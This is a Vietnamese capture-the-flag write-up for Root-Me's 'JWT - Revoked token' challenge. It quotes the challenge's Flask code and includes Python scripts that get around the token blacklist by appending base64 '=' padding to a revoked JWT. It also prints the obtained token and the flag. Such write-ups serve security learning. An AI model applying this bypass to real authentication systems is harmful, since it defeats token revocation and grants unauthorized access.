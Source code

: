 # JWT - Revoked token

## Discription 

Two endpoints are available :

- POST : /web-serveur/ch63/login
- GET : /web-serveur/ch63/admin

Get an access to the admin endpoint.

## Solution

Bài cho source code nên việc đầu tiên cần làm sẽ là đi mổ sẻ cái này .

```
def login():
    try:
        username = request.json.get('username', None)
        password = request.json.get('password', None)
    except:
        return jsonify({"msg":"""Bad request. Submit your login / pass as {"username":"admin","password":"admin"}"""}), 400
 
    if username != 'admin' or password != 'admin':
        return jsonify({"msg": "Bad username or password"}), 401
 
    access_token = create_access_token(identity=username,expires_delta=datetime.timedelta(minutes=3))
    ret = {
        'access_token': access_token,
    }
   
    with lock:
        blacklist.add(access_token)
 
    return jsonify(ret), 200
```

Đầu tiên login() , hàm này làm nhiệm vụ tạo cho ta một cái token có thời hạn 3 phút để xác thực và cụ thể ở đây ta cần gửi một user = admin và pass = admin . Sẽ chẳng có gì đáng nói nếu hàm này ko thực hiện thêm một công việc đó là thêm cái token này vào blacklist .  

```
def delete_expired_tokens():
    with lock:
        to_remove = set()
        global blacklist
        for access_token in blacklist:
            try:
                jwt.decode(access_token, app.config['JWT_SECRET_KEY'],algorithm='HS256')
            except:
                to_remove.add(access_token)
       
        blacklist = blacklist.difference(to_remove)
```

Hiểu đơn giản đây là một hàm dùng để xóa những token hết hạn và nó sẽ được gọi sau mỗi 10s .

```
def protected():
    access_token = request.headers.get("Authorization").split()[1]
    with lock:
        if access_token in blacklist:
            return jsonify({"msg":"Token is revoked"})
        else:
            return jsonify({'Congratzzzz!!!_flag:': FLAG})
```

Hàm này sẽ kiểm tra token có trong blacklist hay ko nếu không thì nó sẽ đưa flag cho ta . 

Nhận định ban đầu để pass thì ta cần có một token ko có trong blacklist nhưng ngay từ khi được tạo thì token đã được thêm vào blacklist và chỉ đc xóa đi khi hết hạn khi ấy thì nó lại không còn hợp lệ nữa khá khó khăn để giải quyết vấn đề này .

Tuy nhiên có một lối thoát đó là:
	+ Tất cả các phần của JWT đều được encode base64 .
	+ Base64 có một đặc trưng đó là trong quá trình mã hóa sẽ xảy ra một số trường hợp thừa thiếu bit để giải quyết vấn đề này người ta tạo ra phần đệm *=* để xác định chiều dài mã hóa và ko làm ảnh hưởng đến việc mã hóa .(https://en.wikipedia.org/wiki/Base64). Thực ra mk cũng chưa hiểu lắm cơ mà đại loại là ta có thể thêm dấu *=* vào cuối chuỗi base64 mà ko làm thay đổi nó.
Từ hai điều trên chúng ta chỉ cần thêm đấu bằng vào cuối token nhận đc từ enpoint /login là bypass thành công.

Trước tiên là code python tạo client request với post lấy token (lưu ý là phải có "Content-Type": "application/json" ):

```
import requests

url = "http://challenge01.root-me.org/web-serveur/ch63/login"

header = {"Content-Type": "application/json"}
data = '{"username":"admin","password":"admin"}'

res = requests.post(url, data=data, headers=header)

print(res.text) 
```

> {"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MjQ0NDIyMDgsIm5iZiI6MTYyNDQ0MjIwOCwianRpIjoiYTc5MjFlZTctNjZlNy00MjVkLWFjYjYtMWUwOGE4N2EwNjQ3IiwiZXhwIjoxNjI0NDQyMzg4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.0cwbnn0fuutn09i2THwujzZ_YsV1HKQQsWGH3UeUFh0"}

Tiếp theo là sửa token (add =) và gửi lên endpont /admin .

```
import requests

url = "http://challenge01.root-me.org/web-serveur/ch63/admin"

header = {"Content-Type": "application/json","Authorization": "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MjQ0NDIyMDgsIm5iZiI6MTYyNDQ0MjIwOCwianRpIjoiYTc5MjFlZTctNjZlNy00MjVkLWFjYjYtMWUwOGE4N2EwNjQ3IiwiZXhwIjoxNjI0NDQyMzg4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.0cwbnn0fuutn09i2THwujzZ_YsV1HKQQsWGH3UeUFh0="}

res = requests.get(url,headers=header)

print(res.text)

```

## Flag

 {"Congratzzzz!!!_flag:":"Do_n0t_r3v0ke_3nc0d3dTokenz_Mam3ne-Us3_th3_JTI_f1eld"}


